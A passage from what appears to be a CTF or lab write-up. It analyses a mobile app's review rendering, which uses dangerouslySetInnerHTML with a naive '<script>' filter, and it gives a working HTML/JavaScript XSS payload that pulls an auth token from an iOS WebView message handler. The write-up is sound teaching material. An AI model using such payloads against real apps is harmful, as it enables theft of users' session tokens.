 ```javascript
        localStorage.setItem("auth_token", token);
    }
};
```

Also, we can see something interesting
```javascript
children: [
    (0, P.jsx)("h3", {
        children: e.title
    }),
    e.review.includes("<script>") ? 
        (0, P.jsx)("p", {
            children: e.review
        }) : 
        (0, P.jsx)("p", {
            dangerouslySetInnerHTML: {
                __html: e.review
            }
        })
]
```

This code:
- Renders a title (`h3`) with the value of `e.title`.
- If `e.review` contains `<script>`, render a `<p>` with children: `e.review` as **plain text** (i.e., *avoid executing injected HTML code*).
- If `e.review` **does NOT contain** `<script>`, use `dangerouslySetInnerHTML` to **render it as injected HTML**.

Since the **iOS WebView** uses `window.webkit.messageHandlers.retrieveToken.postMessage()`, we can have the page **inject** a `postMessage` to *exfiltrate the token*.

After 38 payloads, I can craft this with a **`Button`** and **`TextArea`**
```HTML
<textarea id=tokenField></textarea><button onclick=window.addEventListener('message',function(e){document.getElementById('tokenField').value='Token:'+e.data.token},false);window.webkit.messageHandlers.retrieveToken.postMessage(null);>Get Token</button>
```
*Note: You can use https://pastebin.com for copy & paste payloads -make it more easy, also, use BurpSuite repeater for test many payloads*

This code creates a `<textarea>` where the token will be displayed and a `<button>` that, when clicked, requests the token from the iOS WebView using `window.webkit.messageHandlers.retrieveToken.postMessage(null);`. It then listens for the message response with `window.addEventListener('message', ...)` and writes the token inside the `<textarea>`.

![[freshCart3.png]]

I hope you found it useful (: